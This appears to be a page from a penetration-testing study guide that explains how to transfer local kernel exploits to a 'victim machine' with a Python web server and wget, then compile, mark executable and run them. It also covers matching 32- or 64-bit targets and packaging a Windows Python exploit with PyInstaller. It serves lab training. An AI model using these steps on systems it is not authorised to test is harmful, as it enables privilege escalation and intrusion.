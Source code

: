 # Working with exploits

This section is mostly about local kernel exploits, because they're annoying. Remote python exploits are usually point-and-shoot and web exploits have their own section.

## Transferring exploits

The quickest way to transfer an exploit is to create a folder for your exploits and expose it with Python's webserver:

```text
python -m SimpleHTTPServer 80
```

The port defaults to 8000 but 80 and 443 are usually more accessible, and wget will use 80 by default. Make sure your port choice doesn't conflict with your shell and don't leave the server running once you've served the exploit.

To download files to the victim machine:

```text
wget http://[attack machine]:[port]/exploit.c
```

Make sure you are in a writable directory,`/tmp/` is usually reliable.

## Compiling exploits

First, the usual warning about randomly downloading exploits from the internet: watch out for backdoors. [Exploit-DB](https://www.exploit-db.com/) is reliable.

Second, always read the exploit comments carefully:

* Compiler options to use
* Architecture of the victim machine \(32-bit or 64-bit\)
* Steps to complete on the victim machine
* Code modifications

Third, if you get error messages during compilation or runtime, google them. Usually this is because the binary was compiled on the attack machine and there are quirks in architecture that can be solved by modifying compile options.

### Basic technique

The compile command looks like this:

```text
gcc filename.c -o executablename
```

Before you can run it, you'll need to transfer it to the victim machine and give it the right permissions:

```text
chmod u+x executablename
```

To run the executable:

```text
./executablename
```

### 32-bit exploits

Sometimes the victim machine will be 32-bit and can't accept a 64-bit compiled binary. To determine the architecture of your target:

```text
uname -a
cat /proc/version
dpkg --print-architecture
arch
file /sbin/init
```

32-bit is usually represented by `i686` and 64-bit is usually represented by `x86_64`.

If a C compiler is missing or inaccessible on your victim machine, you can compile the exploits on your Kali machine but you need some extra libraries on Kali:

```text
apt-get install gcc-multilib
apt-get install g++-multilib
```

You will also need to add the `-m32` flag to your compile command.

### Python exploits

Python is readily available on Linux, but not on Windows. Interestingly, some popular Windows exploits, such as [MS11-080](https://www.exploit-db.com/exploits/18176/), are written in python \(why?\). To use these, you'll need to create a standalone executable from the python file. This is done by installing `PyWin32` on a Windows machine and then the `PyInstaller` module. 

Then create a Windows PE executable: 

```text
python pyinstaller.py --onefile ms11-080.py
```


